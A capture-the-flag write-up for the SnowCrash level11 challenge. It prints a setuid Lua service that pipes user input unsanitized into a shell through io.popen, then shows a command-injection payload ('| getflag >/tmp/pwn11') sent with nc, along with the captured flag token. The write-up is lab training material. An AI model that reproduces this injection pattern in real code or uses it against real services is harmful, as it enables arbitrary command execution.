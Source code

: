 # level11

- We log as 'level11'

- A single file is located inside the home directory of level11:
>`-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua`

- The executable file has setuid & setgid bits permissions

- We `cat` this LUA script:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

- We can se that it is a small service running on port 5151 that ask for a password, hash it and compare the hash with a hard coded hash

- We try decrypting the hash `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`

- After decryption in a SHA1 decode we have "NotSoEasy" so maybe this is not the password we look for

- Upon execution with `token` as first argument and `test` as second argument, the executable prints:
>`You don't have access to token`

- We can see that a shell command is executed by the script:
>`prog = io.popen("echo "..pass.." | sha1sum", "r")`

- This line is vulnerable to arbitrary code execution because the arguments of the script are not protected or parsed.

- Lets inject the code into the service:
>`nc 127.0.0.1 5151`
>`Password: | getflag >/tmp/pwn11`
>`Erf nope..`

- Let's `cat` the output file:
>`level11@SnowCrash:~$ cat /tmp/pwn11`
>`Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s`

- We get the flag: `fa6v5ateaw21peobuub8ipe6s`